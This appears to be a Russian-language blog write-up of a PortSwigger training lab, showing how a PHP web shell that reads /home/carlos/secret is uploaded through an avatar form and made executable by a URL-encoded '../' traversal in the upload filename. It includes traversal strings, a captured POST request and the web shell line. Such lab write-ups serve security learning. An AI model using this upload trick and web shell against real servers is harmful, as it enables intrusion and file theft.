 ```yaml
---
title: "Web shell upload via path traversal"
date: 2025-08-07
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/preventing-file-execution-in-user-accessible-directories/file-upload/lab-file-upload-web-shell-upload-via-path-traversal"
classes: wide
---
```


В данной лабе содержится **уязвимость в загрузке файлов**. Для ее прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать креды `wiener`:`peter`.

```
https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с кредами из задания:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/1.png){: height="200" .align-center}

Тут есть возможность загрузить картинку, воспользуюсь ей.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/2.png){: height="200" .align-center}

Открою картинку в отдельном окне.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/3.png){: height="200" .align-center}

Пришла идея, что я могу получить доступ к нужному файлу с помощью **Path Traversal** уязвимости. Попробую через `URL` получить файл:

```
../../../home/carlos/secret
../../../../home/carlos/secret
```

Ничего не получилось( Посмотрю в другом месте. Гляну `POST`-запрос к серверу:

```http
POST /my-account/avatar HTTP/2
Host: 0a07003d03613f59817b5c9400e9003a.web-security-academy.net
Cookie: session=7E7K4PEvnIiGMnYLxrlYcBAoSNOt5YJJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary6640f312240f713049159f0d6197d925
Content-Length: 107749
Origin: https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary6640f312240f713049159f0d6197d925
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

Тут есть интересное поле `Content-Disposition: form-data;`. Это значит, что через поле `filename` я могу передать путь для сохранения моего файла. Проверю, могу ли я сохранить другой формат файла. Из контекста прошлых лаб попробую загрузить `PHP` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Файл успешно загрузился на сайт, но не выполнился. 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/4.png){: height="200" .align-center}

Попробую изменить путь для сохранения файла на `../exploit.php`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/5.png){: height="200" .align-center}

Видно, что путь до файла не изменился. Закодирую его в `URL`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/6.png){: height="200" .align-center}

Получилось) Теперь я могу получить нужный файл. По пути `files/avatars/../exploit.php`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/7.png){: height="200" .align-center}

Сдам полученный токен для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/8.png){: height="200" .align-center}
